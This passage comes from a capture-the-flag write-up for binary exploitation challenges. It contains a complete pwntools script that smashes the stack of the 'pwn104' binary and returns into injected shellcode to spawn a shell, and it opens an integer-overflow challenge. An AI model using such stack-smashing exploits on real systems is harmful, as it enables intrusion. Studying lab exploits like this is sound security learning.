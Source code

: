 ![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-07.png)

That address printed out by the program can be used to calculate the beginning of the shellcode we can inject.

```python
#!/usr/bin/env python3
#
# Exploit: return to shellcode
# Smash the stack to inject a shellcode and return to that shellcode.
# This exploit requires an executable stack (i.e., NX is off)

from pwn import *
import re


context.update(arch="amd64", os="linux")

process = process("./pwn104.pwn104")
# process = remote("xxx", 9004)

# The executable is so kind to give us the address of buf
text = process.recvline_containsS("I'm waiting for you at", timeout=3)
addr_search = re.search(r'(0x[0-9a-f]+)$', text, re.IGNORECASE)
buf_address = int(addr_search.group(1), 16)
print("Buffer is @ 0x{:016x}".format(buf_address))

# Stack smashing (buffer + caller function's rbp)
payload = b"A" * 0x50 + b"B" * 8

# + 8 is because shellcode is right after ret_address in the stack
ret_address = buf_address + len(payload) + 8
payload += p64(ret_address) + asm(shellcraft.sh())

process.sendline(payload)

process.interactive()
```

## PWN105 - Simple integer overflow

### Binary behaviour

```shell
root@c18329d2a566:~# ./pwn105.pwn105
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> -1
]>> 0

[o.O] Hmmm... that was a Good try!
```
